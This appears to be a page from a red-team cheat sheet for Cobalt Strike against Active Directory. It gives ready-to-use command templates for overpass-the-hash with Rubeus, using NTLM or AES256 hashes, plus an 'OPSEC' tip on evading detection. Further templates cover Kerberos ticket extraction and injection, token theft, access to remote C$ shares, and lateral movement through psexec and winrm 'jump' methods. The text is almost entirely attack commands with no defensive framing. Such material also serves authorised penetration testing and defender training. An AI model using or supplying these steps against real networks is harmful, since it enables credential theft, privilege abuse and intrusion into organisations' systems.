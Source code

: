 #### Overpass the hash
- OPSEC: Use AES256 keys
```
execute-assembly Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /rc4:<NTLM HASH> /nowrap
execute-assembly Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /aes256:<AES256 HASH> /nowrap /opsec

make_token <DOMAIN>\<USER> DummyPass
[System.IO.File]::WriteAllBytes("C:\Users\public\ticket.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
kerberos_ticket_use C:\Users\public\ticket.kirbi

ls \\<HOSTNAME>\c$
```

#### Overpass the hash elevated context
```
execute-assembly Rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /aes256:<AES256 HASH> /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe

#output: [+] ProcessID       : <PID>

steal_token <PID>

ls \\<HOSTNAME>\c$
```

#### Extract and inject ticket, then steal token
- Extract tickets of a user, create new process, inject ticket into process, steal token from the process
```
execute-assembly Rubeus.exe triage
execute-assembly Rubeus.exe dump /service:krbtgt /luid:<LUID> /nowrap
execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly Rubeus.exe ptt /luid:<LUID> /ticket:[...base64-ticket...]
steal_token <PID>
```

#### Load TGT or TGS ticket
```
kerberos_ticket_use <FILE TO TICKET>
```

#### Use ccache file
```
kerberos_ccache_use
```

### Techniques
#### Jump
```
jump [method] [target] [listener]

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```
